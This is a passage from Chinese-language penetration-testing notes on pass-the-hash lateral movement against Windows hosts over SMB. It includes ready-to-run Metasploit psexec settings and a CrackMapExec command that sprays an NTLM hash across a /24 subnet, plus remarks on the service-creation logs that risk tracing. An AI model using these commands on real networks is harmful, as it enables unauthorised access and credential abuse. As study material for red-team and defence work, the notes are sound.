     2. 因为 PsExec 连接的原理是基于 IPC 共享，因此目标需要开放 445 端口：
        ![image-20240621115912053](Kerberos/image-20240621115912053.png)
    3. 尽管 PsExec 在退出后会删除 psexesvc 服务，但是创建和删除服务本身会产生日志，从而有被溯源的风险。
    4. 在域的环境下，非域的用户无法利用内存中的票据，从而无法使用 PsExec，这时只能通过账号密码。
    5. 如果 PsExec 出现类似**“拒绝访问”、“找不到指定文件”**等问题，就用 Python 的 impacket 模块的 PsExec 试试。

#### 4.2.3 使用 MSF 的 Hash 模块

1. 直接上命令
    ```bash
    use exploit/windows/smb/psexec
    set SMBUser Administrator
    set rhosts 192.168.31.2
    set smbpass aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5
    ```

2. 注意，这里的 smbpass 是较长的 hash：
    `aad3b435b51404eeaad3b435b51404ee:ntlm hash`
    ![image-20240621193100499](Kerberos/image-20240621193100499.png)

#### 4.2.4 CrackMapExec 批量 PTH

1. CrackMapExec 可以针对 C 段主机，批量的进行 PTH，项目地址：

    > https://github.com/byt3bl33d3r/CrackMapExec
    > 可以在 Kali 中 apt-get。

2. 使用命令：
    ```bash
    crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5
    ```
